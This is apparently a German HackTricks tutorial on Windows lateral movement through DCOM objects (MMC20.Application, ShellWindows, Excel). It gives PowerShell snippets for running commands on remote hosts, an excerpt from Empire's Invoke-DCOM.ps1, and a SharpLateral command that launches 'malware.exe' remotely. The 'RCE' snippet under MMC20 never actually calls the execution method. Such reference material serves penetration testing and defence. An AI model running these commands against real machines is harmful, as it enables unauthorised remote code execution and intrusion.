 # DCOM Exec

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## MMC20.Application

**Für weitere Informationen zu dieser Technik überprüfen Sie den Originalbeitrag von [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)**

Das Distributed Component Object Model (DCOM) bietet eine interessante Möglichkeit für netzwerkbasierte Interaktionen mit Objekten. Microsoft stellt umfassende Dokumentationen sowohl für DCOM als auch für das Component Object Model (COM) zur Verfügung, die [hier für DCOM](https://msdn.microsoft.com/en-us/library/cc226801.aspx) und [hier für COM](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx) zugänglich sind. Eine Liste von DCOM-Anwendungen kann mit dem PowerShell-Befehl abgerufen werden:
```bash
Get-CimInstance Win32_DCOMApplication
```
Das COM-Objekt, [MMC Application Class (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx), ermöglicht das Scripting von MMC-Snap-In-Operationen. Bemerkenswerterweise enthält dieses Objekt eine `ExecuteShellCommand`-Methode unter `Document.ActiveView`. Weitere Informationen zu dieser Methode finden Sie [hier](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx). Überprüfen Sie es in der Ausführung:

Diese Funktion erleichtert die Ausführung von Befehlen über ein Netzwerk durch eine DCOM-Anwendung. Um remote mit DCOM als Administrator zu interagieren, kann PowerShell wie folgt verwendet werden:
```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("<DCOM_ProgID>", "<IP_Address>"))
```
Dieser Befehl verbindet sich mit der DCOM-Anwendung und gibt eine Instanz des COM-Objekts zurück. Die ExecuteShellCommand-Methode kann dann aufgerufen werden, um einen Prozess auf dem Remote-Host auszuführen. Der Prozess umfasst die folgenden Schritte:

Check methods:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com.Document.ActiveView | Get-Member
```
Erhalte RCE:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com | Get-Member

# Then just run something like:

ls \\10.10.10.10\c$\Users
```
## ShellWindows & ShellBrowserWindow

**Für weitere Informationen zu dieser Technik siehe den ursprünglichen Beitrag [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)**

Das **MMC20.Application**-Objekt wurde als mangelhaft in Bezug auf explizite "LaunchPermissions" identifiziert, was zu Berechtigungen führt, die Administratoren den Zugriff erlauben. Für weitere Details kann ein Thread [hier](https://twitter.com/tiraniddo/status/817532039771525120) erkundet werden, und die Verwendung von [@tiraniddo](https://twitter.com/tiraniddo)’s OleView .NET zum Filtern von Objekten ohne explizite Launch Permission wird empfohlen.

Zwei spezifische Objekte, `ShellBrowserWindow` und `ShellWindows`, wurden aufgrund ihres Fehlens an expliziten Launch Permissions hervorgehoben. Das Fehlen eines `LaunchPermission`-Registryeintrags unter `HKCR:\AppID\{guid}` bedeutet, dass keine expliziten Berechtigungen vorhanden sind.

###  ShellWindows
Für `ShellWindows`, das keinen ProgID hat, ermöglichen die .NET-Methoden `Type.GetTypeFromCLSID` und `Activator.CreateInstance` die Objektinstanziierung unter Verwendung seiner AppID. Dieser Prozess nutzt OleView .NET, um die CLSID für `ShellWindows` abzurufen. Nach der Instanziierung ist die Interaktion über die Methode `WindowsShell.Item` möglich, was zu Methodenaufrufen wie `Document.Application.ShellExecute` führt.

Beispiel-PowerShell-Befehle wurden bereitgestellt, um das Objekt zu instanziieren und Befehle remote auszuführen:
```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.Item()
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```
### Laterale Bewegung mit Excel DCOM-Objekten

Laterale Bewegung kann durch das Ausnutzen von DCOM Excel-Objekten erreicht werden. Für detaillierte Informationen ist es ratsam, die Diskussion über die Nutzung von Excel DDE für laterale Bewegung über DCOM auf [Cybereason's Blog](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom) zu lesen.

Das Empire-Projekt bietet ein PowerShell-Skript, das die Nutzung von Excel für Remote Code Execution (RCE) durch Manipulation von DCOM-Objekten demonstriert. Nachfolgend sind Ausschnitte aus dem Skript verfügbar auf [Empire's GitHub-Repository](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1), die verschiedene Methoden zur Ausnutzung von Excel für RCE zeigen:
```powershell
# Detection of Office version
elseif ($Method -Match "DetectOffice") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$isx64 = [boolean]$obj.Application.ProductCode[21]
Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
# Registration of an XLL
elseif ($Method -Match "RegisterXLL") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$obj.Application.RegisterXLL("$DllPath")
}
# Execution of a command via Excel DDE
elseif ($Method -Match "ExcelDDE") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$Obj.DisplayAlerts = $false
$Obj.DDEInitiate("cmd", "/c $Command")
}
```
### Automatisierungstools für laterale Bewegung

Zwei Tools werden hervorgehoben, um diese Techniken zu automatisieren:

- **Invoke-DCOM.ps1**: Ein PowerShell-Skript, das vom Empire-Projekt bereitgestellt wird und die Ausführung verschiedener Methoden zum Ausführen von Code auf Remote-Maschinen vereinfacht. Dieses Skript ist im Empire GitHub-Repository verfügbar.

- **SharpLateral**: Ein Tool, das zum Ausführen von Code aus der Ferne entwickelt wurde und mit dem Befehl verwendet werden kann:
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## Automatische Werkzeuge

* Das Powershell-Skript [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1) ermöglicht es, alle kommentierten Methoden zum Ausführen von Code auf anderen Maschinen einfach aufzurufen.
* Sie könnten auch [**SharpLateral**](https://github.com/mertdas/SharpLateral) verwenden:
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## Referenzen

* [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)
* [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
